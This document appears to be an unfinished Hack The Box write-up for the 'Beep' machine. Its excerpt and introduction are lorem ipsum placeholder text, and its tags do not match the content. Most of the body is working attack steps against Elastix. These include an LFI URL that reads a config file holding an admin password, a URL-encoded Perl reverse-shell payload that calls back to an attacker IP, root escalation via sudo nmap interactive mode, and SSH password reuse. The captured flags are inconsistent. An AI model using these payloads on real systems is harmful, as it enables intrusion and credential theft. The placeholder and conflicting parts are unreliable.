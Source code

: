 ```yaml
---
layout: single
title: Beep - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-07-27
classes: wide
header:
  teaser: /assets/images/htb-writeup-beep/beep_logo.png
  teaser_home_page: true
  icon: /assets/images/linux.png
categories:
  - hackthebox
  - infosec
tags:  
  - linux
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-beep/beep_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. root@nidus:/git/htb/beep# nmap -Pn -n 10.10.10.7
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-30 11:22 CEST
    Nmap scan report for 10.10.10.7
    Host is up (0.037s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE
    22/tcp    open  ssh
    25/tcp    open  smtp
    80/tcp    open  http
    110/tcp   open  pop3
    111/tcp   open  rpcbind
    143/tcp   open  imap
    443/tcp   open  https
    993/tcp   open  imaps
    995/tcp   open  pop3s
    3306/tcp  open  mysql
    4445/tcp  open  upnotifyp
    10000/tcp open  snet-sensor-mgmt

   DIRB:

   NIKTO:


2. Looking on port 80 we are instantly forwarded to the 443 version prompting us with a Elastix login screen. Googling for this we
   find bunch of exploits, amongst other a authenticated RCE privesc and a unauthenticated LFI that seems promising.

     root@nidus:/git/htb/beep# searchsploit elastix
       ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
        Exploit Title                                                                                                              |  Path
       ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------
       ..
       Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                            | php/webapps/37637.pl
       ---------------------------------------------------------------------------------------------------------------------------- ---------------------------------

    Reading the code (searchsploit -x 37637.pl) we find that is real simple and can be done directly in the browser.
      #LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

    Visit:
    https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

    In all the text we find the following lines:
      # This is the default admin name used to allow an administrator to login to ARI bypassing all security.
      # Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
      ARI_ADMIN_USERNAME=admin

      # This is the default admin password to allow an administrator to login to ARI bypassing all security.
      # Change this to a secure password.
      ARI_ADMIN_PASSWORD=jEhdIekWmdjE

    Logging in to the site gives me the message "Error - Access denied for 10.10.14.4. The host has been blocked because of too many authentication failures"


3. Wait for the block go timeout, and then login to the elastix service, https://10.10.10.7/.
   Continue to search for elastix exploits we find a RCE:
    FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution | php/webapps/18650.py

   Just like previous exploit, this is a one-liner that can be used from the URL. For it to work we need to specify
   LHOST = 10.10.14.10
   LPORT = 4488
   RHOST = 10.10.10.7
   EXTENSION = ?

   Looking in Elastix > PBX we find the extension 'Fanis Papafanopoulos <233>', so set this value to 233.
   Setup a listener and paste your one-liner to exploit.

   https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.10%3a4488%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A

   [root:/git/htb/beep]# nc -lvnp 4488                                                                                               (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.10] from (UNKNOWN) [10.10.10.7] 40047
    whoami
      asterisk
    python -c 'import pty;pty.spawn("/bin/bash")'
      bash-3.2$


    bash-3.2$ sudo -l
      Matching Defaults entries for asterisk on this host:
          env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
          LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
          LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
          LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
          XAUTHORITY"

      User asterisk may run the following commands on this host:
          (root) NOPASSWD: /sbin/shutdown
          (root) NOPASSWD: /usr/bin/nmap
          (root) NOPASSWD: /usr/bin/yum
          (root) NOPASSWD: /bin/touch
          (root) NOPASSWD: /bin/chmod
          (root) NOPASSWD: /bin/chown
          (root) NOPASSWD: /sbin/service
          (root) NOPASSWD: /sbin/init
          (root) NOPASSWD: /usr/sbin/postmap
          (root) NOPASSWD: /usr/sbin/postfix
          (root) NOPASSWD: /usr/sbin/saslpasswd2
          (root) NOPASSWD: /usr/sbin/hardware_detector
          (root) NOPASSWD: /sbin/chkconfig
          (root) NOPASSWD: /usr/sbin/elastix-helper

    bash-3.2$ sudo /usr/bin/nmap --interactive
      Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
      Welcome to Interactive Mode -- press h <enter> for help
      nmap> !sh
        sh-3.2# whoami
          root

        sh-3.2# cat /home/fanis/user.txt
          6e81a26eb20987c5ef0602984f0f66ee

        cat /root/root.txt
          f024f39974fa0274157fbe11845fffa7



(3). We got a password, trying password re-use seems to be a play here as well - we instantly get root. Grab the flags.

    root@nidus:/git/htb/beep# ssh root@beep.htb
      Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
    root@nidus:/git/htb/beep# ssh -oKexAlgorithms=+diffie-hellman-group-exchange-sha1 root@beep.htb
      root@beep.htb's password: jEhdIekWmdjE
        Last login: Tue Jul 16 11:45:47 2019

        Welcome to Elastix
        ----------------------------------------------------

        To access your Elastix System, using a separate workstation (PC/MAC/Linux)
        Open the Internet Browser using the following URL:
        http://10.10.10.7

      [root@beep ~]# cat root.txt
        d88e006123842106982acce0aaf453f0
      [root@beep ~]# ls -al /home/
        total 28
        drwxr-xr-x  4 root       root       4096 Apr  7  2017 .
        drwxr-xr-x 22 root       root       4096 Jul 30 12:10 ..
        drwxrwxr-x  2 fanis      fanis      4096 Apr  7  2017 fanis
        drwx------  2 spamfilter spamfilter 4096 Apr  7  2017 spamfilter
      [root@beep ~]# cat /home/fanis/user.txt
        aeff3def0c765c2677b94715cffa73ac





██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Elastix LFI:
  https://www.exploit-db.com/exploits/37637
